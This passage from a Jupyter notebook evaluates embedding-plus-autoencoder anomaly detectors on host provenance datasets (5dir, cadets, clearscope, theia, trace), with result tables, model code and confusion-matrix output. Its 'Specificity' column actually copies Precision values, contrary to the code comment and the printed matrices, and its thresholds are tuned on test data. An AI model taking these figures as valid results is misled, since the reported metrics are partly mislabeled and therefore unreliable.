    'Context': 'Best Context',
    'F1-Score': 'Weighted F1 score'
})

# 5. Add the Specificity column (leaving it blank since it wasn't in the original CSV headers)
if 'Specificity' not in best_results.columns:
    best_results['Specificity'] = best_results['Precision']

# 6. Filter and order the columns exactly as they appear in your image
columns_to_keep = [
    'Performer', 
    'Best Context', 
    'Best Model Combination', 
    'PR-AUC', 
    'Recall', 
    'Specificity', 
    'Weighted F1 score'
]
final_table = best_results[columns_to_keep]

# 7. Save the final table
output_filename = 'best_overall_performer_with_AE.csv'
final_table.to_csv(output_filename, index=False)

print(f"Table successfully generated and saved as '{output_filename}'.")
print("\nPreview of the table:")
print(final_table)

Table successfully generated and saved as 'best_overall_performer_with_AE.csv'.

Preview of the table:
       Performer    Best Context       Best Model Combination  PR-AUC  Recall  \
1140        5dir  ProcessNetflow  gtr_t5_large + Attention AE  0.8304  0.7500   
2519      cadets     ProcessExec             mpnet + Baseline  0.6768  0.5455   
662   clearscope      ProcessAll       e5_mistral + Deep SVDD  0.8759  0.6923   
1301       theia  ProcessNetflow           gtr_t5_large + DAE  0.9684  0.9800   
2420       trace  ProcessNetflow  modernbert_large + Baseline  0.8541  0.7778   

      Specificity  Weighted F1 score  
1140       0.7500             0.7500  
2519       1.0000             0.7059  
662        1.0000             0.8182  
1301       0.9423             0.9608  
2420       0.9333             0.8485  


In [6]:
df = pd.read_csv('best_overall_performer_with_AE.csv', index_col=0)
df

,Best Context,Best Model Combination,PR-AUC,Recall,Specificity,Weighted F1 score
Performer,,,,,,
5dir,ProcessNetflow,gtr_t5_large + Attention AE,0.8304,0.7500,0.7500,0.7500
cadets,ProcessExec,mpnet + Baseline,0.6768,0.5455,1.0000,0.7059
clearscope,ProcessAll,e5_mistral + Deep SVDD,0.8759,0.6923,1.0000,0.8182
theia,ProcessNetflow,gtr_t5_large + DAE,0.9684,0.9800,0.9423,0.9608
trace,ProcessNetflow,modernbert_large + Baseline,0.8541,0.7778,0.9333,0.8485


### CMs for Best Context and its best combinations 


--- Processing 5dir ---
Detected Labels -> Normal: '0.0', Anomaly: '1.0'
Total Test Samples: 69 (Anomalies: 4, Normal: 65)
Matrix Calculated -> TP: 3, FN: 1, TN: 64, FP: 1





--- Processing cadets ---
Detected Labels -> Normal: '0.0', Anomaly: '1.0'
Total Test Samples: 44838 (Anomalies: 11, Normal: 44827)
Matrix Calculated -> TP: 6, FN: 5, TN: 44827, FP: 0





--- Processing clearscope ---
Detected Labels -> Normal: '0.0', Anomaly: '1.0'
Total Test Samples: 2432 (Anomalies: 13, Normal: 2419)
Matrix Calculated -> TP: 9, FN: 4, TN: 2419, FP: 0





--- Processing theia ---
Detected Labels -> Normal: '0.0', Anomaly: '1.0'
Total Test Samples: 9690 (Anomalies: 100, Normal: 9590)
Matrix Calculated -> TP: 98, FN: 2, TN: 9584, FP: 6





--- Processing trace ---
Detected Labels -> Normal: '0.0', Anomaly: '1.0'
Total Test Samples: 1345 (Anomalies: 36, Normal: 1309)
Matrix Calculated -> TP: 28, FN: 8, TN: 1307, FP: 2





Done! All test-based confusion matrices saved to the 'accurate_confusion_matrices' folder.


In [15]:
import torch
import torch.nn as nn
import pandas as pd
import numpy as np
import matplotlib.pyplot as plt
import seaborn as sns
import os
from sklearn.metrics import precision_recall_curve, confusion_matrix

# ==========================================
# 1. AUTOENCODER ARCHITECTURES
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128)
        )
    def forward(self, x):
        return self.encoder(x)

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# ==========================================
# 2. CONFIGURATION & FILE PATHS
# ==========================================
DEVICE = torch.device("cuda" if torch.cuda.is_available() else "cpu")

output_dir = 'accurate_confusion_matrices'
os.makedirs(output_dir, exist_ok=True)

configs = {
    '5dir': {
        'data_path': r'D:\Waleed FYP\final_train_test_split_gtr_t5_large\5dir\test\ProcessNetflow.pkl',
        'weight_path': r'D:\Waleed FYP\saved_weights_gtr_t5_large\5dir_ProcessNetflow_AttentionAE.pth',
        'model_type': 'AttentionAE'
    },
    'cadets': {
        'data_path': r'D:\Waleed FYP\final_train_test_split_mpnet\cadets\test\ProcessExec.pkl',
        'weight_path': r'D:\Waleed FYP\saved_weights_mpnet\cadets_ProcessExec_Baseline.pth',
        'model_type': 'Baseline'
    },
    'clearscope': {
        'data_path': r'D:\Waleed FYP\final_train_test_split_e5_mistral\clearscope\test\ProcessAll.pkl',
        'weight_path': r'D:\Waleed FYP\saved_weights_e5_mistral\clearscope_ProcessAll_DeepSVDD.pth',
        'model_type': 'DeepSVDD'
    },
    'theia': {
        'data_path': r'D:\Waleed FYP\final_train_test_split_gtr_t5_large\theia\test\ProcessNetflow.pkl',
        'weight_path': r'D:\Waleed FYP\saved_weights_gtr_t5_large\theia_ProcessNetflow_DAE.pth',
        'model_type': 'DAE' 
    },
    'trace': {
        'data_path': r'D:\Waleed FYP\final_train_test_split_modernbert_large\trace\test\ProcessNetflow.pkl',
        'weight_path': r'D:\Waleed FYP\saved_weights_modernbert_large\trace_ProcessNetflow_Baseline.pth',
        'model_type': 'Baseline'
    }
}

def get_model(model_type, input_dim):
    if model_type in ['Baseline', 'DAE']:
        return VanillaAE(input_dim)
    elif model_type == 'DeepSVDD':
        return DeepSVDDNet(input_dim)
    elif model_type == 'AttentionAE':
        return AttentionAE(input_dim)
    else:
        raise ValueError(f"Unknown model type: {model_type}")

# ==========================================
# 3. INFERENCE & PLOTTING LOOP
# ==========================================
for performer, config in configs.items():
    print(f"\n--- Processing {performer} ---")
    
    try:
        # 1. Load Data
        test_data = pd.read_pickle(config['data_path'])
        X_test = torch.tensor(test_data['X'], dtype=torch.float32).to(DEVICE)
        
        # Flatten y_test to ensure it's a 1D array
        y_test_raw = np.array(test_data['y']).flatten()
        
        # 2. AUTO-DETECT LABELS (The fix for the sample count issue)
        unique_labels, counts = np.unique(y_test_raw, return_counts=True)
        if len(unique_labels) > 1:
            anomaly_lbl = unique_labels[np.argmin(counts)] # Minority class is anomaly
            normal_lbl = unique_labels[np.argmax(counts)]  # Majority class is normal
        else:
            anomaly_lbl = 1 # Fallback if only 1 class exists in test set
            normal_lbl = 0
            
        # Standardize labels: 1 for Anomaly, 0 for Normal
        y_test = np.where(y_test_raw == anomaly_lbl, 1, 0)
        
        print(f"Detected Labels -> Normal: '{normal_lbl}', Anomaly: '{anomaly_lbl}'")
        print(f"Total Test Samples: {len(y_test)} (Anomalies: {np.sum(y_test==1)}, Normal: {np.sum(y_test==0)})")
        
        # 3. Initialize Model and Load Weights
        detected_input_dim = X_test.shape[1]
        model = get_model(config['model_type'], detected_input_dim).to(DEVICE)
        model.load_state_dict(torch.load(config['weight_path'], map_location=DEVICE))
        model.eval()
        
        # 4. Calculate Anomaly Scores
        with torch.no_grad():
            if config['model_type'] == 'DeepSVDD':
                z = model(X_test)
                scores = torch.sum(z ** 2, dim=1).cpu().numpy()
            else:
                reconstructions = model(X_test)
                scores = torch.mean((X_test - reconstructions) ** 2, dim=1).cpu().numpy()
        
        # 5. Find Best Threshold dynamically
        precisions, recalls, thresholds = precision_recall_curve(y_test, scores)
        f1_scores = (2 * precisions * recalls) / (precisions + recalls + 1e-10) 
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx]
        
        # 6. Generate Binary Predictions
        y_pred = (scores >= best_threshold).astype(int)
        
        # 7. Calculate Confusion Matrix
        cm = confusion_matrix(y_test, y_pred)
        
        if cm.shape == (1, 1):
            if y_test[0] == 0:
                cm = np.array([[cm[0,0], 0], [0, 0]])
            else:
                cm = np.array([[0, 0], [0, cm[0,0]]])
                
        TN, FP, FN, TP = cm.ravel()
        print(f"Matrix Calculated -> TP: {TP}, FN: {FN}, TN: {TN}, FP: {FP}")
        
        # 8. Draw and Display the Image
        plt.figure(figsize=(6, 5))
        ax = sns.heatmap(cm, annot=True, fmt='d', cmap='Blues', 
                         xticklabels=['Normal (0)', 'Anomaly (1)'], 
                         yticklabels=['Normal (0)', 'Anomaly (1)'])
        
        plt.title(f"Test Confusion Matrix: {performer}\n({config['model_type']})")
        plt.ylabel('Actual Label')
        plt.xlabel('Predicted Label')
        
        img_filename = os.path.join(output_dir, f"{performer}_CM_accurate.png")
        plt.savefig(img_filename, bbox_inches='tight', dpi=300)
        plt.show() 
        plt.close() 
        
    except Exception as e:
        print(f"Error processing {performer}: {e}")

print(f"\nDone! All test-based confusion matrices saved to the '{output_dir}' folder.")

# END